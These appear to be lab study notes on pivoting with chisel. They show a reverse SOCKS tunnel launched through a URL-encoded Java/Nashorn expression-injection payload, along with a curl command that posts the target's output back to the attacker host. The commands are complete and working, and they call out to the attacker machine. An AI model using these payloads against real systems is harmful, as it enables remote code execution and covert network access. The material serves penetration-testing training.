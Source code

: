 > [!Note]
> We're starting the chisel server on port `8080` but later the *client will trigger port `1080`* on the Kali machine for our SOCKS proxy.
```bash
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
```
- `--port` tells chisel to run the server so it's listening on port `8080`
- `--reverse` tells chisel to enable *reverse tunneling*
#### Verify
We can verify the server is running by using [tcpdump](../../CLI-tools/linux/tcpdump.md):
```bash
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```
This tells us that our chisel process is listening on port `8080` of the `tun0` interface.
### Chisel Client
We want the client to connect to our *chisel server on the Kali box* (`192.168.118.4:8080`) and then also *create a reverse SOCKS tunnel* (`R:socks`) which will bind to port `1080` *by default*. The `R` prefix in the command specifies a *reverse tunnel* using the SOCKS proxy (bound to `1080`):
```bash
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```
- `>/dev/null 2>&1` redirects all *output* to `/dev/null` which doesn't exist
	- There is a better way to do the same thing which is less confusing, that is `...R:socks &> /dev/null` (see [file descriptors](../../computers/linux/file-descriptor.md))
- `&` (at the end) will force the process *to run in the background*. This ensures our injection doesn't *hang while waiting for the process to finish*
#### Character Encode for Webshell
```bash
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/
```
## Troubleshoot Issues
After running this command you should notice *no output* was returned. That means something is wrong with how we can our client server. To troubleshoot this, we can *redirect `stderr` and `stdout` to a file* and then send that file to our Kali machine *using a [`POST`](../../www/HTTP.md#`POST`) request* (via [curL](../../CLI-tools/linux/remote/curL.md)):
```bash
# New payload:
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/

# Injection command:
curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/
```
- notice that we're sending the `POST` request *to our chisel server* (listening on port `8080`)
- `--data` this tells `curl` to read the file at `/tmp/output` and include it in the body of the `POST` request (as data)
### Check the output
We should receive the above `POST` request on our listening chisel server. We can check `tcpdump` for the request (assuming we kept the earlier `tcpdump` command running):
```bash
...
16:30:50.915895 IP (tos 0x0, ttl 61, id 47823, offset 0, flags [DF], proto TCP (6), length 410)
```